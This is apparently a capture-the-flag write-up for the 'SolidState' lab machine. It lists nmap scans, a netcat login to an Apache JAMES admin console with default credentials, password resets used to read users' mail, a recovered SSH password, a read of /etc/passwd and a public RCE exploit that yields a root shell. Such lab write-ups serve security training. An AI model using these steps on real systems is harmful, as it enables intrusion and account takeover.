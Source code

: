 # SolidState

### What I Learned

1. Always check running software based on the services running on the ports
2. Gaining access to user's machines using basic credentials

<details>
  <summary><strong>Writeup Summary</strong></summary>
Nmap scan the machine, then scan all ports on the machine. Then run a targeted scan on the found ports. Find the version of the application running on the extra port. Try to get into the extra port using netcat. Try basic credentials like admin/admin, james/password, root/root and get into the JAMES admin console. Change the user's passwords, then access the mail server on port 110 to read user's emails. Get the password for the mindy user.
Find an exploit for the Apache JAMES server and use it to upload a compromised file. SSH into the machine using mindy, which activates the exploit, granting a root shell.
</details>
<br>

## Writeup

### Take screenshots!

Scan the machine, then scan all ports

- `nmap -sC -sV -sT -vv -oA nmap/first_scan <IP_ADDR>`
- `nmap -p- -T5 -oA nmap/allports <IP_ADDR>`

Get a list of all open ports

- `grep -oP '\d{1,5}/open' allports.gnmap`
- `grep -oP '\d{1,5}/open' allports.gnmap | sort -u > ports.list`
- Open ports.list in vi, then run
  - Remove "ope" on each line
  - %s/\/ope//g
  - Remove newlines and add a comma
  - %s/n\n/,/g
  - Now you have a comma separated list of all open ports

Now run a targeted scan

• `nmap -p 11.,119,22,25,4555,80 -sC -sV -oA nmap/targeted --script vuln <IP_ADDR>`

While waiting, check the 4555 port

- `nc <IP> 4555`
- Password and username are `root`
- Can use python and expect to create a brute forcer for that - or pwntools?

Use the JAMES server CLI to reset all the user's passwords to "password"

Telnet into port 110 and run

- USER mindy
- PASS password
- LIST
- RETR 2

Get mindy's password

- `P@55W0rd1!2@`

SSH into the machine

- `ssh mindy@10.129.61.184`

`cat /etc/passwd`
Shows that mindy is running rbash (restricted), so some commands will not work

Find all commands accessible

- compgen -c
- None are in gtfobins

Download other apache james RCE exploit that uses python3, set the variables, and run it.
• `linux/remote/50347.py`

SSH into the machine as mindy to get a root shell
